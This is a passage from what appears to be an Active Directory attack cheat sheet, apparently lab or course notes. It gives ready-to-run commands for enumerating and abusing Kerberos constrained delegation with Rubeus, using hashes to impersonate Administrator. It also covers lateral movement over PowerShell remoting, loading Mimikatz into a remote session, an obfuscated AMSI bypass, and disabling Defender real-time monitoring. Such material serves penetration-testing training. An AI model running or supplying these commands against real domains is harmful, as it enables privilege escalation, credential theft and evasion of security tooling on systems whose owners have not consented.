 The delegation occurs not only for the specified service **but for any service running under the same account**. There is no validation for the SPN specified.

Enumerate users and computers with constrained delegation enabled:

```powershell
# Using PowerView
Get-DomainUser -TrustedToAuth
Get-DomainComputer -TrustedToAuth

# Using AD Module
Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties msDS-AllowedToDelegateTo
```

Note if the **domain computer is trusted to auth for delegation** we must use the RC4 for the machine hash of that computer itself, e.g. `STUDVM$`. If it is the service account with delegation enabled we can use the hash for the account as usual.

### Rubeus
To abuse Constrained Delegation using Rubeus, we can use the following command, which  requests a TGT and TGS in a single command:

```bash
# CIFS (File server) service
.\Rubeus.exe s4u /user:websvc /rc4:cc098f204c5887eaa8253e7c2749156f /impersonateuser:Administrator /msdsspn:"CIFS/dcorp-mssql.dollarcorp.moneycorp.LOCAL" /ptt

ls \\dcorp-mssql.dollarcorp.moneycorp.local\c$
```

As mentioned we can abuse constrained delegation to gain access to other services e.g. by specifying `altservice`:
```bash
.\Rubeus.exe s4u /user:WKS1$ /rc4:e711fbebe5151b36d38aecb5bdafabb0 /impersonateuser:Administrator /msdsspn:"CIFS/appsrv.blob.finance.corp" /altservice:http,host,rpcss,wsman,ldap /ptt
```

# Lateral Movement

## PowerShell Remoting

Stateful PS remoting commands
```powershell
$sess = New-PSSession -ComputerName dcorp-mgmt.dollarcorp.moneycorp.local

# Load function (must be in memory in the local PowerShell session)
Invoke-Command -ScriptBlock ${function:Invoke-Mimikatz} -Session $sess 
```

Stateless command execution over remote session:
```powershell
Invoke-Command -ScriptBlock {whoami;hostname} -ComputerName dcorp-
mgmt.dollarcorp.moneycorp.local

Invoke-Command -ScriptBlock {sET-ItEM ( 'V'+'aR' +  'IA' + 'blE:1q2'  + 'uZx'  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    GeT-VariaBle  ( "1Q2U"  +"zX"  )  -VaL )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System'  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f'amsi','d','InitFaile'  ),(  "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )} -Session $sess

Invoke-Command -ScriptBlock {Set-MpPreference -DisableRealtimeMonitoring $true} -Session $sess
```
